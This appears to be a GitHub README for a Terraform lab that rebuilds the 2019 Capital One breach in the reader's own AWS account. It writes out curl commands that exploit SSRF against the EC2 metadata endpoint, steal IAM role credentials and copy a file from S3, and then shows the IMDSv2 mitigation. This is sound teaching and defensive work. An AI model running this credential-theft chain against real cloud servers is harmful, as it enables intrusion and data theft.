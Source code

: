 # CapitalOne-Breach-Simulation-Lab
Code and artifacts for the Adversary Emulation phase of a Root Cause Analysis of the 2019 Capital One breach report.

Based on the lab by Shay Raize Meshulam: [shayrm/CapitalOne-SSRF-demo](https://github.com/shayrm/CapitalOne-SSRF-demo)

# Purpose

This lab is designed for educational purposes to validate my CAPITAL One breach 2019 root cause analysis report to show how SSRF vulnerabilities can be exploited in a cloud environment, and then the danger of overly permissive IAM roles, how compromised EC2 metadata can lead to data breach from S3, and the effectiveness of IMDSv2 for mitigation. The lab was followed based on the GitHub repository that Say Raize Meshulam published as guidance, and modifications were made from the original main.tf file and the readme file addressed errors from the previous instruction.

#Prerequisites

AWS Account(Free tier is fine), EC2 Key Pair, AWS CLI, Terraform, Main.tf file, Local secret CSV file.

#Setup Instructions
1. Download main.tf and top_secret_file.csv into the local directory.
2. Modify main.tf. Please refer to the comments in the file and ensure your configuration is valid—region, key_pair, ubuntu-ami, bucket_name need to be changed.
3. Initialize Terraform by opening the terminal.tf file and local secret CSV file are installed and run:

terraform init

4. Validate Configuration: 

terraform fmt
terraform validate
terraform plan


5. Deploy the Lab:

terraform apply

Check that public_ip and instance_id are displayed correctly in the terminal.

Note the public_ip and instance_id from the output.

# Instructions for running  Attack Simulation

1. Check Server Response:

curl http://<public_ip>/

Replace <public_ip> with your public IP that you previously obtained on the transform apply stage.

2. Exploit SSRF to List Metadata:

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/](http://169.254.169.254/latest/meta-data/)"


3. Navigate to Credentials:

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/](http://169.254.169.254/latest/meta-data/iam/)"
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"

The output will be the role name: c-demo-role


4. Steal Credentials: 

curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)c-demo-role/"


The output will be a JSON object containing AccessKeyId, SecretAccessKey, and Token.


5. Configure Attacker Profile:

aws configure set aws_session_token [YOUR_TOKEN] --profile c-demo

aws configure --profile c-demo

Enter stolen AccessKeyId, SecretAccessKey, region (e.g., us-east-2), format (json)

Copy the credentials from the JSON output and leave the token blank at the aws configure --profile c-demo stage, you already entered it.



6. Verify Access dnd List Buckets:

aws s3 ls --profile c-demo


You should be able to see your unique bucket name

7. Exfiltrate Data: 

aws s3 ls s3://<bucket_name> --profile c-demo
aws s3 cp s3://<bucket_name>/top_secret_file.csv ./ --profile c-demo

(Replace <bucket_name> with your unique bucket name)

8. Verify that it is downloading to the correct directory and check the content inside
   ls
   cat top_secret_file

#Mitigation

Enforce IMDSv2:

aws ec2 modify-instance-metadata-options --instance-id "<instance_id>" --http-tokens required --http-endpoint enabled

Use instance_id with the ID from the terraform apply output


Verify Mitigation: 
curl "http://<public_ip>/?url=[http://169.254.169.254/latest/meta-data/iam/security-credentials/](http://169.254.169.254/latest/meta-data/iam/security-credentials/)"

It should fail when you try to attempt it again.

#Clean Up

To avoid unexpected AWS charges, destroy all created resources after you finish your activity:

terraform destroy
